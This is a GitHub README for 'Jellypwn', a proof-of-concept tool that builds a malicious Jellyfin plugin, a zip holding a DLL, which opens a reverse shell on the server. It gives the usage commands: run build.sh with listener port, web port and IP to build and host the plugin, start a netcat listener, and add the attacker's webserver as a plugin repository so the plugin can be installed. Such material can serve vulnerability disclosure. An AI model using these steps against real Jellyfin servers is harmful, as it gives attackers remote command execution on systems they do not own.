 # Jellypwn

Get a reverse-shell on jellyfin using plugins

<https://github.com/jellyfin/jellyfin-web/issues/4653>

**TDLR;** Jellyfin allows you to upload plugins to the server, these plugins are just .zip files with a dll file inside it. You can upload a plugin that executes a reverse-shell on the server.

## PoC video

<!--![website2](https://github.com/ScribblerCoder/Jellypwn/assets/35840617/eec2b7b0-43af-4c65-9a65-19ccfb555718)-->
<p align="center">
<img src="https://github.com/ScribblerCoder/Jellypwn/assets/35840617/eec2b7b0-43af-4c65-9a65-19ccfb555718" width="800">
</p>
<br/>

## How to use

This repo builds the plugin and hosts on a webserver

```console
bash build.sh [-p LISTENPORT] [-l WEBPORT] [-i IP]
```

Then run a netcat listener on the port you specified

```console
nc -lvnp LISTENPORT
```

To install your plugin on jellyfin you need to add a reposiory to the plugin catalog, you can do this by going to the plugin catalog and clicking on the "Repositories" Tab. Then click on "+" button, add the url of the webserver where you are hosting the plugin. Then your plugin should appear in the catalog for installation.
